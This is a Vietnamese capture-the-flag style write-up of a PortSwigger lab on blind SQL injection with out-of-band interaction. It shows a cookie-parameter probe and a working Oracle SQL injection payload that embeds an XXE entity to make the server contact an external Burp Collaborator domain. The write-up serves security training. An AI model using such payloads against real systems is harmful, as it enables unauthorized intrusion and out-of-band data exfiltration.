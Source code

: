 # Write-up: Blind SQL injection with out-of-band interaction

### Tổng quan
Ghi lại quá trình khai thác Blind SQLi dựa trên kĩ thuật Out-Of-Band 
để gửi DNS lookup tới Burp Collaborator

### Mục tiêu
Thực hiện DNS lookup tới Burp Collaborator

### Công cụ hỗ trợ
- BurpSuite pro
- Firefox Browser

### Các bước thực hiện

1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `TrackingId` trong header `Cookie` trong HTTP request được chặn trong BurpSuite
    ```
    TrackingId=kizdDsfJXTVvCYsJ'
    ```
    - **Kết quả**: Response không thay đổi hay hiển thị lỗi, xác nhận đây là Blind SQL Injection.
        ![lỗi](./images/error.png)

2. **Tạo payload**
- Mở Burp Collaborator client trong Burp Suite, sao chép subdomain `ra5k07yd7pn8efthok7l0btix930rqff.oastify.com`

- Tạo payload kết hợp SQLi và XXE (XML External Entity) để kích hoạt DNS lookup
```
'||(SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://ra5k07yd7pn8efthok7l0btix930rqff.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```
- **Kết quả**: DNS được gửi thành công, hoàn thành Lab
    ![dns](./images/DNS.png)
    ![lab](./images/dns_success.png)

### Bài học rút ra
- Thành thạo khai thác blind SQL injection bằng kĩ thuật Out-Of-Band.
- Nhận thức tầm quan trọng của kiểm tra đầu vào để ngăn chặn SQL injection.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet
- PortSwigger: Blind SQL Injection

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng khai thác Blind SQL injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.